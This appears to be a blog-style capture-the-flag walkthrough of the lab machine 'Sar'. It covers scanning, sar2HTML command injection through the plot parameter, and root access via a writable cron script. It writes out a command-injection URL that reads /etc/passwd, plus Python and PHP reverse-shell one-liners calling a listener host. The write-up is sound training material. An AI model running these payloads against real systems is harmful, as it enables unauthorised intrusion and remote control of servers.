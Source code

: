 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the VulnHub box **"Sar"** that exploits sar2HTML via Remote Code Execution (RCE)
<br />

- **Box Host:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 
*Note 1: The IP addresses, URLs, and flags used in this demonstration were specific to the environment at the time of the exploit and will likely be different when another attempt at this box is made.*

*Note 2: There is almost always more than one way to expoit a box (TIMTOWTDI). The demonstration and tools shown here are probably not the only method you can use.*
- - -

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
```
```
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
Research to find **sar2HTML** exploit
- Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
- Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
- Example:

```
http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd
```

- - - 

### Step 4: Setup a Reverse Shell
Run a basic Python command to see if it is installed

```
python3 --help
```

- The output provided shows this is a success and python3 is installed

Setup a netcat listener in your terminal:
```
nc -lvp 1234
```

- Run a python3 script to connect to a reverse shell:

```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

- Successfully connected:

- Setup a stable shell (optional):

```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

- **user flag was found at:** /home/love/Desktop/user.txt

- - -

### step 5 (final): Gain Root
- Search for weak permissions
  - Find a **cron job** is being run as a root user

```
cat /etc/crontab
```

- Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**

*Note: This cronjob is running every 5 minutes*

- Navigate to /var/www/html/ and see what is there

```
cat /var/www/html
ls 
```

- Run cat on finally.sh and see it is calling write.sh

```
cat finally.sh
cat write.sh
```

- write.sh is creating a folder in temp directory
- the command **ls -l** shows we can edit write.sh

```
ls -l
```

- Add a php reverse connection command into write.sh with **echo**

```
echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

*Note: echo requires a \ in front of a $ and a " for the file to accept it*

- Setup a netcat listner

```
nc -lvp 4444
```

- Wait about 5 mins for cronjob to run again and see the shell open up on the new netcat listner
- **root flag was found at:** /root/root.txt

- - -
### Screenshot Attempt:
![Test](/assets/_stegoview/02-offsec/howto-fork.png) <br>
![Test](_stegoview/02-offsec/howto-fork.png) <br>
![Test](howto-fork.png) <br>
<img src="_stegoview/02-offsec/howto-fork.png" width="400"> <br>
- - -
![Link an image](https://raw.githubusercontent.com/DigitalHammer/DigitalHammer.github.io/master/assets/_stegoview/02-offsec/howto-fork.PNG "Yosemite with me wife")

